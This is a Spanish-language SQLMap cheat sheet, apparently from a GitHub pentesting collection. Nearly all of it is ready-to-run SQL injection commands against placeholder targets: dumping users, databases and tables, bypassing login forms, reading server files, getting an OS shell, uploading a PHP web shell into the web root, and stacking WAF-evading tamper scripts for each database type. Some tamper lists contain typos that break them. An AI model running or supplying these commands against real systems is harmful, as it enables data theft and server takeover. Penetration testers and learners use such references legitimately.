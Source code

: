 # SQLMap Cheat Sheet

#### Uso simple
```
sqlmap -u "<URL>"
```

#### Conocer el usuario actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-user
```

#### Conocer la Base de Datos actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-db
```

#### Especificar el Sistema Gestor de Base de Datos
```
sqlmap -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar los usuarios de la BD del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --users
```

#### Mostrar los privilegios del usuario de la BD
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current_user --privileges
```

#### Listar las Bases de Datos del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Listar las columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Obtener un Shell de OS interactivo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --os-shell
```

#### Listar BD, usando un parámetro de 'User-Agent' con el método GET
```
sqlmap -u '<URL>' -p User-Agent --method=GET --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --dbs
```

#### Colocar un parámetro y usar la técnica de UNION
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U
sqlmap -u "http://site.com/index.php?search=n" -p search --technique=U
```

#### Colocar un parámetro, usar la técnica de UNION, usando un verbose nivel 3 e ignorando los resultados almacenados del query
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --banner -v3 --fresh-queries
```

#### Colocar un parámetro, usar la técnica de UNION y enumerar los usuarios de la BD
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --users
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --banner
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --dbs
```

#### Enviar las peticiones a nuestro propio proxy
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --dbs
```

#### Enviar diferentes Token CSRF en cada petición
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --csrf-url='<URL-REQUEST-POST>' --csrf-token="<NAME-TOKEN-CSRF>" --dbs
```

#### Leer un archivo desde un WebServer
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --file-read=/xampp/htdocs/index.php --batch
```

#### Cargar una shell en el servidor
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```

#### Usar en formulario de Login cargado desde un archivo, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -r "<PATH_FILE>" --data='user=a&pass=a' -p user --technique=B --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --cookie="name:value" --no-cast --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=2 --level=3 --tamper=space2comment,randomcase,between --no-cast --dbs

sqlmap -u "<URL>" -p <PARAMETER> --cookie="name:value" --threads=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --tamper=space2comment,randomcase,between,charencode --not-string='A database error has been detected and fowarded to system admin.' --level=3 --risk=2 --dbms=mysql -v 3 --dbs
```

## Tampers

#### MSSQL
```
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,percentage,randomcase,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

#### MySQL
```
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

#### PostgreSQL
```
--tamper=xforwardedfor,space2comment,space2plus,space2randomblank,between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere
```

#### SQLite
```
--tamper=space2plus,unionalltounion.unmagicquotes,xforwardedfor,ifnull2ifisnull,randomcase,securesphere,space2comment,space2dashmmultiplespaces,nonrecursivereplacement 
```

## Techniques

- ``` B ```: Boolean-based blind
- ``` E ```: Error-based
- ``` U ```: Union query-based
- ``` S ```: Stacked queries
- ``` T ```: Time-based blind
- ``` Q ```: Inline queries

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)